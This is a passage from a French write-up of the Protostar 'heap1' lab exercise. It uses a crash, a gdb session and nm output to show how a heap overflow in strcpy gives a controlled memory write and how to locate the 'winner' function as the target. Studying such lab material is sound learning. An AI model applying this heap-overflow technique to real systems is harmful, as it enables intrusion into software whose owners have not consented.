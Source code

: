 ```shellsession
$ ./heap1 AAAAAAAAAAAAAAAAAAAAAAAA BBBB
Erreur de segmentation (core dumped)
$ dmesg | tail -2
[ 1396.178092] heap1[1864]: segfault at 41414141 ip 00000000f7cae312 sp 00000000ffaa031c error 6 in libc.so.6[f7c22000+180000] likely on CPU 0 (core 0, socket 0)
[ 1396.178113] Code: c3 8d b4 26 00 00 00 00 66 8b 01 66 89 02 8a 41 02 88 42 02 89 d0 c3 90 8b 01 89 02 89 d0 c3 8d b4 26 00 00 00 00 66 90 8b 01 <89> 02 8a 41 04 88 42 04 89 d0 c3 8d 76 00 8b 01 89 02 66 8b 41 04
```

On voit que le programme a crashé car on a tenté d'écrire à l'adresse `0x41414141` correspondant à nos caractères `A`.

On note cependant que l'adresse où le programme a crashé (`ip`) n'est pas dans le code du programme (pas une adresse en `0x0804XXXX`) mais une adresse de la libc. Il s'agit ici d'adresse d'instruction présente dans le code de `strcpy`. On n'est pas sur un cas de stack overflow ;-)

On peut toutefois poser un breakpoint sur l'appel à `strcpy` et vérifier que toutes les conditions sont là :

```shellsession
$ gdb -q ./heap1
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) b *0x08048555
Breakpoint 1 at 0x8048555: file heap1/heap1.c, line 32.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAA BBBB
Starting program: /tmp/protostar/bin/heap1 AAAAAAAAAAAAAAAAAAAAAAAA BBBB

Breakpoint 1, 0x08048555 in main (argc=3, argv=0xffffcc94) at heap1/heap1.c:32
(gdb) x/4wx $esp
0xffffcbb0:     0x41414141      0xffffcf4a      0xf7fc0410      0x00000000
(gdb) x/s 0xffffcf4a
0xffffcf4a:     "BBBB"
```

Le programme va bien tenter d'écrire `BBBB` à l'adresse `0x41414141`.

Sans adresse de retour qu'allons nous écrire et où ? Pour le quoi la réponse est simple puisqu'il y a une fonction `winner` à appeler :

```shellsession
$ nm heap1
08049780 A __bss_start
08049780 b completed.5982
0804966c d __CTOR_END__
08049668 d __CTOR_LIST__
08049778 D __data_start
08049778 W data_start
080485e0 t __do_global_ctors_aux
08048410 t __do_global_dtors_aux
0804977c D __dso_handle
08049674 D __DTOR_END__
08049784 b dtor_idx.5984
08049670 d __DTOR_LIST__
0804967c d _DYNAMIC
08049780 A _edata
08049788 A _end
0804860c T _fini
08048628 R _fp_hw
08048470 t frame_dummy
08048664 r __FRAME_END__
08049750 d _GLOBAL_OFFSET_TABLE_
--- snip ---
08048494 T winner
```

